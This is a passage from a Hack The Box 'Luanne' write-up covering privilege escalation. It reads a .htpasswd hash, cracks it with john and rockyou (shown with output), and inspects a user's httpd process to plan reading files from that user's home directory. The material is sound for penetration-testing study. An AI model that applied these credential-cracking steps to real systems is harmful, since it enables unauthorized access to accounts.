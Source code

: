 And I got the shell.

# Privilege Escalation

---

## _http → r.michaels

---

In the code above, you see 3 files. One of them could not be determinated using the gobuster scan. So I check it's content (.htpasswd):

```bash
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

Let's crack this password:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt webapi_user-hash 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamthebest       (?)
1g 0:00:00:00 DONE (2021-09-27 13:53) 12.50g/s 38400p/s 38400c/s 38400C/s my3kids..ANTHONY
Use the "--show" option to display all of the cracked passwords reliably
Session completed
                                                                                                         
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ john --show webapi_user-hash                                     
?:iamthebest

1 password hash cracked, 0 left
```

Let's check the processes for the only user on the system:

```bash
$ ps auxww | grep michaels
r.michaels   185  0.0  0.0  38020  1976 ?     Is    6:41AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```

There is a webserver running on port 3001 which runs as r.michaels. The home directory of the webserver is also inside of the r.michaels. There is also the same API as on the other web server, but I think the vulnerability (Lua injection) is patched.

Since the webserver is running as `r.michales` and have the `-u` option, it should be possible to include files from the users home directory (specified path in `-u` option):
